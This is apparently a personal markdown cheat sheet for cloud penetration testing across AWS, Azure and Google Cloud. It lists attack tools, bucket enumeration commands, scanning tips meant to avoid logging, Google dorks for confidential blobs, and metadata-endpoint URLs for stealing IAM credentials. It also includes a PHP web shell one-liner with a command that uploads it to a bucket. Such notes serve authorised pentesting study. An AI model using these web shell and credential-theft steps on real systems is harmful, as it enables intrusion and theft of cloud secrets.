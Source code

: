 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud. Most cloud providers have miminal logging by default.        
[Hacking the Cloud](https://hackingthe.cloud/)    
[Grey Hat Warfare](https://buckets.grayhatwarfare.com/): search public buckets       
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
    #Most devices won't log half open SYN scans (nmap -sS and masscan) or TLS scan to web ports              
## AWS     
AWS GuardDuty for security. No logging or versioning on by default.         
[AWS IP ranges](https://ip-ranges.amazon.aws/ip-ranges.json)         
[Pacu](https://github.com/RhinoSecurityLabs/pacu): AWS exploit framework      

    bash install.sh
    python3 pacu.py
    import_keys --all    
[WeirdAAL](https://github.com/carnal0wnage/weirdAAL): Amazon Attack Library     
[AWS_Pwn](https://github.com/dagrz/aws_pwn), 

Access     
     
     CLI: using AWS access key and AWS secret key. Set as enviromental variables.     
     Web: management web portal access.      
    AWS_ACCESS_KEY_ID = AKIA{REST OF KEY}     #long term key with no expiration date     
    AWS_ACCESS_KEY_ID = ASIS{REST OF KEY}     #short term access key     
    ACCESS KEY (long or short term) + secret access key = API authentication     

Pen Testing on a web server:     

     check for web requests to s3 buckets at https://s3.amazonaws.com/{bucketname} or https://s3-{region}.amazonaws.com/{Org}         
     Config issues:   

Set up enivromental variables to use AWS CLI       

    export AWS_ACCESS_KEY=AKIA{KEY}    
    export AWS_SECRET_ACCESS_KEY= {KEY}     
    #or use the below command and input the keys as values    
    aws configure     #set up, can put temp in all values   

AWS CLI Usage    
[AWS CLI Docs](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html)    

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws s3 ls s3://bucket.site.com    #list contents of a bucket    
    aws sl ls s3://bucket --region      
    aws --endpoint=http://site.com s3 ls s3://site.com   #list objects and common prefixes    
    aws sts get-caller-identity --endpoint-url http://bucket/    #user id, account and ARN    
    aws s3api get-bucket-acl --bucket bucket       
    aws s3 cp file.txt s3://bucket --profile user_profile    
  
might be able to upload a php web shell      

    echo '<?php system($_GET["cmd"]); ?>' > shell.php   #make web shell file   
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com     #upload web shell     

Find buckets    
[bucket_finder](https://github.com/FishermansEnemy/bucket_finder), [slurp](https://github.com/bbb31/slurp)          

    bucket_finder.rb search_term --download         
    python3 cloud_enum.py -k example.com       
Instance Metadata     

    "Metadata" endpoint: 169.254.169.254, should only be accessible from localhost. SSRF or other vulns might allow remote attacks to access it.         
    http://169.254.169.254/latest/meta-data/iam/security-credentials/     #IAM creds     
    http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>    

Lambda   

    AWS Lambda: can have vulns and be used to steal AWS keys via command injection.            
    Denonia cryptominer malware targeted Lambda.     
Post Compromise:   

    Enum permissions of access keys     
    weirdAAL - recon_module, PACU priv esc     
### Resources      
https://www.hackthebox.com/blog/aws-pentesting-guide    
https://cloud.hacktricks.xyz/pentesting-cloud/aws-security     
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         
Azure Blob: https://{account}.blob.core.windows.net/{container}     


### Enumerate Azure Blobs   
[Azure-CLI](https://learn.microsoft.com/en-us/cli/azure/install-azure-cli)     
[AZ-Blob-Attacker](https://github.com/VitthalS/Az-Blob-Attacker)    
[Basic Blob Finder](https://github.com/joswr1ght/basicblobfinder): search for Azure blobs       
[Microburst](https://github.com/NetSPI/MicroBurst): Scripts for pentesting Azure    

    basicblobfinder.py wordlist   #enum buckets       
Google Hacks:     

    site:*.blob.core.windows.net
    site:"blob.core.windows.net" and intext:"CONFIDENTIAL"
### Resources:    
https://www.inversecos.com/2022/01/how-to-detect-and-compromise-azure.html      

## Google Cloud   
GCP Cloud Armor for security. [List of Buckets by IPS](https://www.gstatic.com/ipranges/cloud.json)           
GCP: https://www.googleapis.com/storage/v1/b/{bucketname}      
[GCPBucketBrute](https://github.com/RhinoSecurityLabs/GCPBucketBrute): search for Google Storage Buckets and check accesses.     
Bucket permissions: listable (enum and read files), writeable (upload)       

    gcpbucketbrute.py -u -k search_org      
    gsutil ls gs://bucket       #list contents of a public bucket     
